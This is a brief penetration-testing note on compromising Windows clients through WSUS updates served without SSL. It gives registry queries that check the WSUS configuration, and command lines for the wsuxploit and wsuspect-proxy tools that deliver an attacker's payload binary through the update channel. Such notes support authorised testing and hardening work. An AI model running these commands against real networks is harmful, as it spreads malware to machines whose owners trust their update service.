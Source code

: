 # Windows - WSUS

- https://www.contextis.com/en/resources/white-papers/wsuspect-compromising-the-windows-enterprise-via-windows-update

  

- Check to see if WSUS is using SSL or not

```
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer 

reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
```

## Exploitation

https://github.com/pimps/wsuxploit

```
./wsuxploit.sh <target_IP> <wsus_IP> <wsus_port> <binary path> 
```

https://github.com/ctxis/wsuspect-proxy



```
python wsuspect_proxy.py <payload> 
```

